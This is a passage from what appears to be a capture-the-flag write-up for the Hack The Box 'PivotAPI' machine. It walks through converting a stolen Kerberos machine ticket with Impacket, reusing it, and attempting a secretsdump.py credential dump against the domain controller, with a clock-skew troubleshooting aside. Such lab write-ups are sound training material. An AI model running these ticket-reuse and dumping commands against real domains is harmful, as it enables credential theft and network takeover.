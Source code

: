 

I'll save that base64-encoded ticket to a file, and decode it into a new
file:



    oxdf@parrot$ base64 -d machine.kirbi.b64 > machine.kirbi



Now I'll convert it to ccache format with [another Impacket
tool](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py),
`ticketConverter.py`:



    oxdf@parrot$ ticketConverter.py machine.kirbi machine.ccache
    Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

    [*] converting kirbi to ccache...
    [+] done



I'll set that file to be the `KRB5CCNAME` environment variable so that
it is used to authentication on upcoming commands:



    oxdf@parrot$ export KRB5CCNAME=/home/oxdf/hackthebox/pivotapi-10.10.10.240/machine.ccache



#### Time Skew

It's possible to run into issues if the clock on my system and the DC
are off by more than a few minutes. That will happen here. If I try to
run `secretsdump.py` now, it will fail:



    oxdf@parrot$ secretsdump.py LICORDEBELLOTA.HTB/pivotapi\$@pivotapi.licordebellota.htb -dc-ip 10.10.10.240 -no-pass -k         
    Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

    [-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user          
    [*] Cleaning up...       



Trying to use this ticket with `crackmapexec` will show a more
descriptive error:



    oxdf@parrot$ crackmapexec smb pivotapi.licordebellota.htb -k
    SMB         10.10.10.240    445    PIVOTAPI         [*] Windows 10.0 Build 17763 x64 (name:PIVOTAPI) (domain:LicorDeBellota.htb) (signing:True) (SMBv1:False)
    SMB         10.10.10.240    445    PIVOTAPI         [-] LicorDeBellota.htb Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great) 



`ntpdate -u [ip]` will update my local system time to that of the server
at the given IP. Some tricks that I found useful:
